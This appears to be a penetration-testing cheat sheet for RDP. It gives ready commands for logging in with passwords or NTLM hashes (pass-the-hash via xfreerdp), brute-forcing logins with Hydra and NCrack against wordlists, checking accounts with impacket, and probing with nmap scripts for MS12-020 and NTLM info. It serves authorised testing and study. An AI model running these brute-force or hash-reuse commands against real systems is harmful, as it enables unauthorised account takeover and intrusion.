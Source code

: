 ## RDP

**Default port: 3389**

### Connecting using Credentials or Hash

    rdesktop -u <username> <IP>
    rdesktop -d <domain> -u <username> -p <password> <IP>
    xfreerdp /u:[domain\]<username> /p:<password> /v:<IP>
    xfreerdp /u:[domain\]<username> /pth:<hash> /v:<IP>
    rdesktop -u Administrator -p 'P@$$W0rd' -d controller.local 10.10.191.87

### Brute Force Attack
  
  Be careful, you could lock accounts

  https://github.com/yofbalibump/RDPbruteforcer

**Hydra**

 	hydra -t 1 -V -f -l administrator -P /home/kali/Desktop/rockyou.txt rdp://10.11.1.7

**NCrack** not tested

	ncrack -vv --user Administrator -P /home/kali/Desktop/1000-most-common-passwords.txt rdp://10.11.1.7


### Check Account

  test whether account is valid on the target host.
  
  https://github.com/SecureAuthCorp/impacket/blob/master/examples/rdp_check.py
  
  `rdp_check <domain>/<name>:<password>@<IP>`
  
### NMap
  
  It checks the available encryption and DoS vulnerability (without causing DoS to the service) and obtains NTLM Windows info (versions).
  
  `nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>`
